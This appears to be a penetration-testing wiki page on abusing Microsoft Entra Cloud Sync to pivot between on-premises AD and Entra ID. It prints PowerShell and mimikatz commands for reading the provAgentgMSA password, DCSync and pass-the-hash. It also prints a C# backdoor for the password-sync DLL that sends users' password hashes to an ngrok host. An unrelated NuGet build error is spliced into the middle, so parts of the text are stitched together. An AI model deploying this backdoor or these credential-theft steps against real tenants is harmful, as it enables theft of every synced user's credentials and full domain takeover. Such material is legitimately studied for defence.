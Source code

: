 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}


## Basic Information

**Cloud Sync** is basically the new way of Azure to **synchronize the users from AD into Entra ID**.

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync is a new offering from Microsoft designed to meet and accomplish your hybrid identity goals for synchronization of users, groups, and contacts to Microsoft Entra ID. It accomplishes this by using the Microsoft Entra cloud provisioning agent instead of the Microsoft Entra Connect application. However, it can be used alongside Microsoft Entra Connect Sync.

### Principals Generated

In order for this to work some principals are created in both Entra ID and the On-Premise directry:

- In Entra ID the user `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) is created with the role **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`). 

> [!WARNING]
> This role used to have a lot of privileged permissions and it could be used to [**escalate privileges even to global admin**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b). However, Microsoft decided to remove all the privileges of this role and assign it just a new one **`microsoft.directory/onPremisesSynchronization/standard/read`** which doesn't really allow to perform any privileged action (like modifying the password or atribbutes of a user or adding a new credential to a SP).

- In Entra ID also the group **`AAD DC Administrators`** is created without members or owners. This group is useful if [`Microsoft Entra Domain Services`](./az-domain-services.md) is used.

- In the AD, either the Service Account **`provAgentgMSA`** is created with a SamAcountName like **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), or a custom one with [**these permissions is needed**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account). Usually the default one is created.

> [!WARNING]
> Among other permissions the Service Account **`provAgentgMSA`** has DCSync permissions, allowing **anyone that compromises it to compromise the whole directory**. For more information about [DCSync check this](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html).

> [!NOTE]
> By default users of known privileged groups like Domain Admins with the attribute **`adminCount` to 1 are not synchronized** with Entra ID for security reasons. However, other users that are part of privileged groups without this attribute or that are assigned high privileges directly **can be synchronized**.

## Password Sychronization

The section is very similar to the one from:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **Password hash synchronization** can be enabled so users will be able to **login into Entra ID using their passwords from AD**. Moreover, whenever a password is modified in AD, it'll be updated in Entra ID.
- **Password writeback** can also be enabled, allowing users to modify their password in Entra ID automatically synchronizing their password in the on-premise domain. But according to the [current docs](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback), for this is needed to use the Connect Agent, so take a look to the [Az Connect Sync section](./az-connect-sync.md) for more information.
- **Groups writeback**: This feature allows group memberships from Entra ID to be synchronized back to the on-premises AD. This means that if a user is added to a group in Entra ID, they will also be added to the corresponding group in AD.


## Pivoting

### AD --> Entra ID

- If the AD users are being synced from the AD to Entra ID, pivoting from AD to Entra ID is straightforward, just **compromise some user's password or change some user's password or create a new user and wait until it's synced into the Entra ID directory (usually only a few mins)**.

So you could for example
- Compromise the **`provAgentgMSA`** account, perform a DCSync attack, crack the password of some user and then use it to login into Entra ID.
- Just create a new user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.
- Modify the password of some user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.

To compromise the **`provAgentgMSA`** credentials:

```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

Now you could use the hash of the gMSA to perform a Pass-the-Hash attack against Entra ID using the `provAgentgMSA` account and maintain persistence being able to perform DCSync attacks against the AD.

For more information about how to compromise an Active Directory check:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> Note that There isn't any way to give Azure or EntraID roles to synced users based on its attributes for example in the Cloud Sync configurations. However, in order to automatically grant permissions to synced users some **Entra ID groups from AD** might be given permissions so the synced users inside those groups also receive them or **dynamic groups might be used**, so always check for dynamic rules and potential ways to abuse them:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

Regarding persistence [this blog post](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) suggest that it's possible to use [**dnSpy**](https://github.com/dnSpy/dnSpy) to backdoor the dll **`Microsoft.Online.Passwordsynchronisation.dll`** located in **`C:\Program Files\Microsoft Azure AD Sync\Bin`** that is used by the Cloud Sync agent to perform the password synchronization making it exfiltrate the password hashes of the users being synchronized to a remote server. The hashes are generated inside the class **`PasswordHashGenerator`** and the blog post suggest adding some code so the class looks like (note the `use System.Net` and the `WebClient` usage to exfiltrate the password hashes):

```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
	// Token: 0x0200003E RID: 62
	public class PasswordHashGenerator : ClearPasswordHashGenerator
	{
		// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
		public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
		{
			PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
			try
			{
				using (WebClient webClient = new WebClient())
				{
					webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
				}
			}
			catch (Exception)
			{
			}
			return new PasswordHashData
			{
				Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
				RawHash = passwordHashData.RawHash
			};
		}
	}
}
```


NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
  C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.



### Entra ID --> AD

- If **Password Writeback** is enabled, you could modify the password of some users from Entra ID and if you have access to the AD network, connect using them. For more info check the [Az Connect Sync section](./az-connect-sync.md) section for more information as the password writeback is configured using that agent.

- At this point in time Cloud Sync also allows **"Microsoft Entra ID to AD"**, but after too much time I found that it CANNOT synchronize EntraID users to AD and that it can only synchronize users from EntraID that were synchronized with the password hash and come from a domain that belong to the same domain forest as the domain we are synchronizing to as you can read in [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - These groups can only contain on-premises synchronized users and / or additional cloud created security groups.
> - The on-premises user accounts that are synchronized and are members of this cloud created security group, can be from the same domain or cross-domain, but they all must be from the same forest.

So the attack surface (and usefulness) of this service is greatly reduced as an attacker would need to compromise the initial AD from where the users are being synchronized in order to compromise a user in the other domain (and both must be in the same forest apparently).


### Enumeration

```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
  --method GET \
  --uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
  --headers "Content-Type=application/json"
```



{{#include ../../../../banners/hacktricks-training.md}}

